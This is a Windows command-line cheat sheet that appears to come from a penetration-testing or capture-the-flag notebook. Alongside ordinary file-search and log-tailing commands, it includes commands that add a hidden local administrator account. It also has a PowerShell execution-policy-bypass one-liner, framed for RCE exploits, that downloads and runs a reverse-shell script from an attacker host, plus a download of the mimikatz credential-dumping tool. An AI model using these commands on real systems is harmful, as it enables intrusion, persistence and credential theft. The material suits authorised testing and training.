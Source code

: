 # Useful commands in Windows

## Windows - Command Prompt

### Find a file
```batch
dir "\secretfile" /s
```

### Find strings in files
```batch
findstr /s /i "FLAG{" C:\*.*
```

### Find multiple words, strings and patterns
* (Equivalent of `#!bash grep -e WORD1 -e WORD2 -e WORD3`)
```batch
findstr /C:WORD1 /C:WORD2 /C:WORD3 FILENAME.TXT
```

### Enable default local "administrator" account
```batch
net user administrator /active:yes
```

### Adding local accounts (Must have system privileges)
```batch
net user trojand imashortpassword /add
net localgroup administrators trojand /add
```

### List files using `#!bash tree`
```batch
tree /f
tree /f /a > tree.txt
```

### Change user password
```batch
net user trojand imareallyreallyreallylongpasswordnow
```

## Windows - Powershell 

### Nested quotes or wrapping multiple double quotes
* Triple double quotes to make one double quote.
* In the example below, the whole RCE command is taken as a variable. Think of the single quotes also as the command portion in your RCE expoits.
    ```powershell
    var g = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://10.0.1.5:1337/reverse.ps1""")"'
    ```
* For executing in powershell directly (i.e. interactive powershell), you must use a Grave Accent symbol before the three(3) double quotes.
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* BEWARE: This does not seem to work if you are to encode the whole command (IEX...). Better to encode payload/command from Windows to see if it gives an error


### Download files
* Download only [^1]
    ```powershell
    Invoke-WebRequest "http://<KALI_IP>:8000/mimikatz.zip" -Out mimikatz.zip
    
    (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
    
    $client = new-object System.Net.WebClient
    $client.DownloadFile("http://<KALI_IP>:8000/mimikatz.zip","mimikatz.zip")
    ```
* Download and execute
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```

### cat, tail, grep in Windows PS
* Reading Files
    ```powershell
    Get-Content output.log
    ```
* Tail
    ```powershell
    Get-Content output.log -Tail <number of lines>
    Get-Content output.log -Tail 10
    ```
* Tail -f
    ```powershell
    Get-Content output.log -Tail 10 -Wait
    ```
* Grep
    ```powershell
    Get-Content output.log | Select-String -Pattern "<pattern>"
    Get-Content output.log | Select-String -Pattern "password"
    ```
* Grep -A 3
    ```powershell
    Get-Content output.log | Select-String -Pattern "password" -Context 0,3
    ```
* Tail -f | Grep -A 3
    ```powershell
    Get-Content output.log -Tail 10 -Wait | Select-String -Pattern "password" -Context 0,3
    ```

### Base64 Encode Powershell commands
```powershell
$MYCOMAND = "Invoke-WebRequest -Uri 'http://www.contoso.com' -OutFile 'C:\path\file'"
$ENCODED = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($MYCOMMAND))
Write-Output $ENCODED
```

[^1]: [Abatchy](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)
